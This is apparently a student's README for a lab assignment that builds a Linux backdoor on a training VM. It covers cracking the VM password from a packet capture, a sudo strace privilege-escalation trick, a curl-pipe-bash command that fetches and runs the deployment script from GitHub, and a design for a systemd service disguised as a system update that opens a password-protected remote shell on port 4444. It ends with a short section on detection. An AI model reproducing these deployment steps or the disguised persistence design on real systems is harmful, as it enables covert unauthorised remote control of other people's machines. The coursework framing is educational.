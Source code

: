 # Project

Project File Overview<br>
Bash Scripts (Deployed on Target):

- backdoor: Deployment script

- sys-upd: Downloads and executes the server

- sys-upd.service: systemd service unit file

Python Scripts:

- sys.py: Backdoor listener (server side)

- access.py: Client interface (run from attacker machine)

A) how to install it in the week4 virtual machine,

Enable the host to communicate with the VM over port 4444, add this rule in VirtualBox:

Go to Settings > Network > Adapter 1 → click Port Forwarding

Add the following rule:<br>
Name: backdoor-link<br>
Protocol: TCP<br>
Host IP: 127.0.0.1<br>
Host Port: 4444<br>
Guest IP: (leave blank or default)<br>
Guest Port: 4444<br>

___________________________________

ssh into the week4 virtual machine<br>
User: user<br>
Password: hill<br>

Note: (I analyzed the .pcapng file in Wireshark and identified an HTTP response containing user data. A hashed password for the user user stood out. Using John the Ripper with the rockyou.txt wordlist, I successfully cracked the hash and retrieved the password: hill.)

___________________________________


To escalate privileges use this command:

Command:sudo strace -o /dev/null /bin/bash<br>
Command: cd (Change Directory)<br>
Command: curl -s https://raw.githubusercontent.com/Hussnain-Khan/backdoor/main/Bash/backdoor | bash<br>

___________________________________


Once this done, Clone the reopsitory in your system and navigate from terminal to Python folder directory and run <br>
`python sys.py`

B) how your backdoor works internally

- Our backdoor operates by deploying a persistent listener on the target machine using a Bash script (sys-upd) managed by a systemd service (sys-upd.service). This script opens TCP port 4444 and runs the Python server (sys.py) which continuously listens for incoming connections. 

- When a connection is received, it prompts for a password (week4) to authenticate the client. Upon successful login, the server receives and executes shell commands from the client (access.py) and sends back the results. 

- All communication is socket-based and occurs over the specified port, enabling the attacker to remotely control the host shell in real time while maintaining persistence across reboots.

___________________________________

C) how your backdoor works internally

1. Remote Shell Access

- The sys.py script binds to port 4444 and listens for incoming connections. Once authenticated, it enters a loop waiting for shell commands from the attacker. The command is executed via subprocess.Popen() and results are sent back to the attacker.

2. Persistence

- Persistence is achieved using a systemd service (sys-upd.service). The backdoor is enabled to auto-start on boot using systemctl enable sys-upd, ensuring the listener runs continuously.

3. Configuration to get commands from:

- Commands are received over the network socket (TCP on port 4444). The sys.py server waits for incoming commands from the client and executes them directly.

4. Authentication

- The backdoor requires a password (week4) before allowing shell access. If the password is incorrect, the connection is closed and access is denied.

5. Hiding from Detection

- The backdoor is disguised as a system update script: sys-upd. It is placed in the /root directory and registered as a systemd service with a generic name.. Minimal console output and error handling are included to avoid raising suspicion.

___________________________________

D) ideas on how yourbackdoor could be detected.

- The backdoor can be detected using tools like Wireshark by identifying unusual traffic on port 4444.It may also be exposed through system audits by spotting suspicious services like sys-upd.service or by detecting scripts fetched from GitHub. Security tools or EDRs could flag the listener's behavior of executing remote shell commands.